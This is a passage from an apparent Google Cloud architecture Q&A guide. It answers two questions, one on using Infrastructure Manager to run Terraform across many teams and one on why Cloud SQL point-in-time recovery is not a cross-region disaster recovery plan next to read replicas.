<b>Q9: An enterprise platform engineering team wants to standardize infrastructure as code across 100 application teams without managing self-hosted Terraform runner VMs, state bucket permissions, or concurrent execution lock contention. What Google Cloud native solution should they adopt?</b>

**Answer**: Adopt **Google Cloud Infrastructure Manager**.

**Key Capabilities**:

1. **Fully Managed Terraform Engine**: Infrastructure Manager is a Google-managed service that executes standard, unmodified Terraform configurations directly against Google Cloud APIs.
2. **Automated State & Lock Governance**: Google Cloud automatically provisions, encrypts, and isolates Terraform state files in a managed backend bucket with automatic distributed state locking, eliminating corrupted state files from concurrent CI/CD pipeline runs.
3. **IAM Impersonation & Audit Trail**: Deployments execute under a designated Google Cloud Service Account using short-lived impersonation, logging every `terraform plan` and `terraform apply` mutation to Cloud Audit Logs with full revision tracking.

- Ref: [Section 2: Enterprise Migration Blueprints](#2-enterprise-migration-blueprints), [Infrastructure Manager Overview](https://cloud.google.com/infrastructure-manager/docs/overview)

<b>Q10: During an architectural review, an engineer suggests using Cloud SQL Point-in-Time Recovery (PITR) as the primary Disaster Recovery (DR) mechanism for a cross-region data center outage. Why is this an architectural error, and how should PITR be properly positioned alongside Cross-Region Read Replicas?</b>

**Answer**: Confusing **Operational Recovery (PITR)** with **Disaster Recovery (Cross-Region Replication)** is an architectural anti-pattern that violates RTO requirements during regional disasters.

**Architectural Distinction**:

1. **PITR is for Data Corruption Recovery within a Region**: PITR uses continuous transaction logs (WAL/binlogs) to roll back a database to a specific historical second (e.g. recovering from a catastrophic `DROP TABLE` or corrupting `UPDATE` statement). However, recovering from a PITR backup requires provisioning a brand-new database instance and replaying hours of transaction logs, which takes 30 minutes to several hours (high RTO) and does not protect against a total region-wide infrastructure outage where the primary storage is unreachable.
2. **Cross-Region Replicas are for Geographic Disaster Recovery**: A Cross-Region Read Replica runs continuously in a secondary geographical region, receiving asynchronous replication streams with sub-second replication lag. If the primary region suffers a total outage, promoting the replica to standalone master takes under 2 minutes (low RTO), restoring business operations immediately.

- Ref: [Section 3: Disaster Recovery (DR) Tiers and High-Availability Engineering](#3-disaster-recovery-dr-tiers-and-high-availability-engineering), [Cloud SQL High Availability and Replication](https://cloud.google.com/sql/docs/postgres/replication)

